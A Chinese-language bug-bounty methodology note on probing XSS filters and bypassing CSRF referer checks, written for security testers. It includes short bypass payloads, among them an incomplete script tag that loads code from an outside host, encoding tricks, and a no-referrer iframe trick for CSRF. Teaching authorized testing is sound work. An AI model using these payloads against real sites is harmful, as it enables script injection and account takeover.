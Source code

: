 这一步站在开发者的视角去推测他们会创造什么类型的过滤（以及问：为什么？）

- 切入点1-是否过滤完整的HTML tag：
  - 如果发现他们过滤`<script>`，`<iframe>`,`"onerror"=`,但是同时注意到他们不过滤`<script`。那么我们猜测：“是否只过滤完整的HTML tag”。我们可以尝试`<script src=//mysite.com?c=`
- 切入点2-是否维护着一个黑名单
  - 忽略了一些HTML tag：也许开发者忽略了类似于`<svg>`
  - 覆盖面：也许并不是全部参数都存在黑名单
  - 对于encoding如何处理？` <%00iframe`, `on%0derro` 



**Testing for XSS flow:" **

- 测试非而已HTML tag,例如`<h2>`

- 测试不完全的tag,例如`<iframe src=//zseano.com/c=`

- 测试encoding,例如`<%00h2?`（There are LOTS to try here,
  `%0d`,` %0a`,` %09` etc）

- 存在硬编码字符串的黑名单吗？测试` </script/x>` 有效吗？或者 `<ScRipt>`等    

  

推荐的资源：

[Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)





## Cross Site Request Forgery(CSRF)

CSRF一般是通过HTML form (`<form action=”/login”
method=”POST”>`),而且很容易被找到。经典的CSRF的例子是，改变一个用户的email为你 所控制的email地址，这将导致账户接管（account takeover)。

- 当你尝试发送空白的CSRF值时，是否有任何framework的信息通过error泄漏。

- 它是否反映了你的更改，但出现的了CSRF错误。

- 你是否在其他网站上看到了这个参数的名字

  

 Test their most secure features (account functions usually as mentioned above) and work your way backwards. you may
discover that some features have different CSRF protection. Now consider, why?



- 一个常见的开发者检查referer header的值是否是他们的网站。会适得其反因为检查只存在与referer标头被查找到，而标头不存在，不会检查。

  - 你可以构造一个空的referrer，如下：

  ​	`<meta name="referrer" content="no-referrer" /><iframe src="data:text/html;base64,form_code_here">`

  - 他们检查他们的域名是否存在于referer标头，你可以构造这样的referer：`https://www.yoursite.com/https://www.theirsite.com/` 

but typically all sensitive features should
be protected from CSRF, so find them and test there
